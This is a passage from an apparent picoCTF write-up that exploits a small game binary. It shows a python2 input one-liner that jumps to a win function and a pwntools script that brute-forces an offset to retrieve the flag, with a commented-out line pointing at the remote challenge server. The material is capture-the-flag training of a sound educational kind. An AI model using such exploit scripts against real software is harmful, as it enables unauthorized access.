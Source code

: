 
I already have file flag.txt whose content is `testing{fake_flag}`

Running the script gives the offset to get to the win function
![image](https://user-images.githubusercontent.com/113513376/229070331-576cd3f8-5e92-43e1-96a9-8b63e2d8e0ad.png)

Now i can get the flag by running 

```
python2 -c "print 'l]' + 'wwww' + 'd'*47 + 'wp'"  | ./game
```

Trying that gets me the flag
![image](https://user-images.githubusercontent.com/113513376/229069995-416453a9-a863-4446-a36c-edace6d9d8d9.png)

But using remotely doesn't work
![image](https://user-images.githubusercontent.com/113513376/229070520-29780a36-a979-455d-8594-67b2776e4f09.png)

After asking in discord people says the binary on the remote is different from the one given (at least its offset)

That made me then make a brute force script on the offset 

```
#!/usr/bin/env python3

from pwn import *
import string
import warnings

context.log_level = 'warning'
warnings.filterwarnings('ignore')

for i in string.printable:
    #io = remote('saturn.picoctf.net', 52597)
    io = process('./game')
    io.sendline('l' + i)
    io.sendline(b'w' * 4)
    io.sendline(b'd' * 47)
    io.sendline(b'wp')

    output = io.recvall()
    if b'picoCTF' in output:
        print(f"offset found {i}")
        flag = output.decode('utf-8')
        list = flag.split()
        print(list[-1])
        break
```

Running it gives the flag
![image](https://user-images.githubusercontent.com/113513376/229084331-0ed82734-7732-4455-b0f1-3e3ea2e3291b.png)


<h3> VNE </h3>
![image](https://user-images.githubusercontent.com/113513376/228703179-7349a3e6-6c9a-48e8-b2a5-c6ec27cec495.png)
